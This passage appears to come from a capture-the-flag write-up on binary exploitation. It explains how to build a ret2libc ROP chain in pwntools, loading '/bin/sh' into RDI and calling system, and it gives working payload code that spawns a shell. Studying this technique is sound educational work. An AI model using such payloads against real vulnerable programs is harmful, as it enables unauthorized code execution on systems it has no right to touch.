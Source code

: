 ## Part VI: Crafting an ROP Chain

Now we can call `system`, but how do we supply the argument `/bin/sh` to it? Well, first we need to somehow load the string `/bin/sh` into `RDI`, as specified by the section A.2 AMD64 Linux Kernel Conventions in [System V Application Binary Interface](https://refspecs.linuxfoundation.org/elf/x86_64-abi-0.99.pdf)

> User-level applications use as integer registers for passing the sequence %rdi, %rsi, %rdx, %rcx, %r8 and %r9.

We can load the string by finding an instruction address that does `pop rdi; ret`, and put the string `/bin/sh` into the stack right after the instruction. `pwntools` has a built-in way for us to do this, so lets try it!

```py
# Initialise the ROP class on libc
rop = ROP(libc)

# Craft payload with arguments
payload = flat([
    "\x00" * 56,
    p64(rop.rdi.address),   # Get addresses which contain pop rdi; ret
    p64(next(libc.search(b"/bin/sh\x00"))),  # Look for a address containing /bin/sh
    p64(rop.rdi.address + 1),  # This is needed to align the bytes to prevent a segfault (https://stackoverflow.com/questions/60729616/segfault-in-ret2libc-attack-but-not-hardcoded-system-call)
    p64(libc.symbols.system)
])

# Send payload and allow us to interact with the program
p.sendline(payload)
p.interactive()
```

Aaaaand we got a shell 🥳 (I could only do this locally as they shut the servers down when I was doing this writeup)

![shell](shell.png)
